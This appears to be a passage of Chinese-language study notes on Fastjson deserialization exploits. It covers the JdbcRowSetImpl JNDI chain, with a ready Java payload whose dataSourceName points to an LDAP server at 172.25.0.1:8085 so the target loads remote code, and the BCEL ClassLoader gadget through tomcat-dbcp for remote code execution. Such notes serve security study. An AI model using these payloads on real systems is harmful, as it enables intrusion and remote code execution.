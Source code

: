 ```xml
JdbcRowSetImpl.setAutoCommit->
JdbcRowSetImpl.connect
```

yakit / marshelsec / misc.LdapAtkServer都能开LDAP打JNDI

yakit -> 反连服务器 -> payload配置

```java
public static void main(String[] args) throws Exception {
    String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://172.25.0.1:8085/aRWBgUym\",\"autoCommit\":0}";
    JSON.parse(payload);
}
```



## BCEL字节码

据野史记载，在 JDK < 8u251 rt.jar都集成了BCEL ClassLoader，在下面这个包

```
com.sun.org.apache.bcel.internal.util
```

同时在Tomcat中也会存在相关的依赖

* tomcat7：org.apache.tomcat.dbcp.dbcp.BasicDataSource

* tomcat8及其以后：org.apache.tomcat.dbcp.dbcp2.BasicDataSource

随便找了个依赖

```xml
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-dbcp</artifactId>
    <version>7.0.65</version>
</dependency>
```

该类下的loadClass方法如下：如果类以`$$BCEL$$`开头，会调用createClass生成字节码，并用defineClass加载字节码

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241006162851917.png)

creatClass里用Utility.decode解密class_name第8位后的内容

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241006163322368.png)

Utility.decode对应了Utility.encode()

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241006163445870.png)

so，传入`$$BCEL$$`+Utility.decode(payload)经过loadClass即可RCE

那怎么调用到loadClass呢？BasicDataSource的forName触发双亲委派，指定driverClassLoader就OK。

![](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20241006182351359.png)
